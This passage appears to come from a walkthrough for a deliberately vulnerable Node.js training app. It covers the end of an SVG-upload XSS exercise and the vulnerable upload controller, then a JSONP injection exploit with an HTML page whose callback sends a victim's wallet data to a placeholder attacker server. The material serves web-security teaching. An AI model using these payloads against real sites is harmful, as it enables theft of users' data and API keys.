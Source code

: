 5. Save the above code in a .svg file and upload it as your profile picture then copy the file URL and send it to your target and you will get apikey in your attacker server logs.

### Vulnerable Code

**Route: /routes/app.js**

```js
router.route('/svg-xss')
    .get(authenticateToken, vuln_controller.svg_xss_get)
    .post(authenticateToken, vuln_controller.svg_xss_fileupload_post);
```

**Controller: /controllers/vuln_controller.js**

```js
const svg_xss_fileupload_post = (req, res) => {
    if (!req.files || Object.keys(req.files).length === 0) {
        return res.status(400).send('No files were uploaded.');
    }
    const profilePic = req.files.profilePic;
    const profilePicName = profilePic.name
    const profilePicExtension = path.extname(profilePicName)
    const allowedExtension = ['.png', '.jpg', '.jpeg', '.svg'] // .svg file allowed
    if (!allowedExtension.includes(profilePicExtension)) {
        return res.status(422).send('Only .PNG,.JPEG,.SVG files are allowed')
    }
    ... snip ...
```

## 26 JSONP Injection

Application is using JSONP for fetching wallet balance information your goal is to steal the wallet information of other users.

### Exploit

1. First go to `/jsonp-injection` and analyze how the application is updating wallet balance information using burp suite.
2. Observe a GET request going to `/jsonp-injection/wallet-usd-balance` endpoint with a callback parameter. 
3. Forward the request and observe that the response type is application/javascript because it is a JSONP endpoint.
4. Now send the request without callback parameter this time you will notice that server returned application/json content type so if you are doing testing don't forget to add '?callback' parameter on API endpoints to check if the target api provides jsonp response.
5. Since jsonp endpoint returns content-type application/javascript and allow us to specify callback function we can steal user information, by using jsonp endpoint as a script in our attacker website and then sending it to the victim to steal their information.6. Copy the following code in an HTML file and host it on your server.
   
```html
<html>
<body>
<script>
function stealData(data){
  console.log(data)
  fetch("http://<attacker-server>/steal?data=" + JSON.stringify(data))
}
</script>
<script src="http://<vuln-nodejs-app>:9000/jsonp-injection/wallet-usd-balance?callback=stealData">
</script>

</body>
</html>
```
